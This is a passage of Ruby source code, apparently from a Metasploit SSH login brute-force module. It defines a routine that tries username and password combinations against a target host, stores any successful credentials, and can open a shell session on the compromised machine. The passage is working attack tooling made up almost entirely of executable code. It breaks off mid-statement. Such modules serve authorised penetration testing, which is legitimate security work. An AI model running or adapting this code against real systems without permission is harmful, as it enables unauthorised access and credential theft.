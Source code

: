 ```ruby
      host_info[:os_name] = s.platform
    end

    report_host(host_info)

    s
  end


  def run_host(ip)
    @ip = ip
    print_brute :ip => ip, :msg => 'Starting bruteforce'

    cred_collection = build_credential_collection(
      username: datastore['USERNAME'],
      password: datastore['PASSWORD'],
    )

    scanner = Metasploit::Framework::LoginScanner::SSH.new(
      configure_login_scanner(
        host: ip,
        port: rport,
        cred_details: cred_collection,
        proxies: datastore['Proxies'],
        stop_on_success: datastore['STOP_ON_SUCCESS'],
        bruteforce_speed: datastore['BRUTEFORCE_SPEED'],
        connection_timeout: datastore['SSH_TIMEOUT'],
        framework: framework,
        framework_module: self,
        skip_gather_proof: !datastore['GatherProof']
      )
    )

    scanner.verbosity = :debug if datastore['SSH_DEBUG']

    scanner.scan! do |result|
      credential_data = result.to_h
      credential_data.merge!(
          module_fullname: self.fullname,
          workspace_id: myworkspace_id
      )
      case result.status
      when Metasploit::Model::Login::Status::SUCCESSFUL
        print_brute :level => :good, :ip => ip, :msg => "Success: '#{result.credential}' '#{result.proof.to_s.gsub(/[\r\n\e\b\a]/, ' ')}'"
        credential_data[:private_type] = :password
        credential_core = create_credential(credential_data)
        credential_data[:core] = credential_core
        create_credential_login(credential_data)

        if datastore['CreateSession']
          begin
            session_setup(result, scanner)
          rescue StandardError => e
            elog('Failed to setup the session', error: e)
            print_brute :level => :error, :ip => ip, :msg => "Failed to setup the session - #{e.class} #{e.message}"
          end
        end

        if datastore['GatherProof'] && scanner.get_platform(result.proof) == 'unknown'
          msg = "While a session may have opened, it may be bugged.  If you experience issues with it, re-run this module with"
```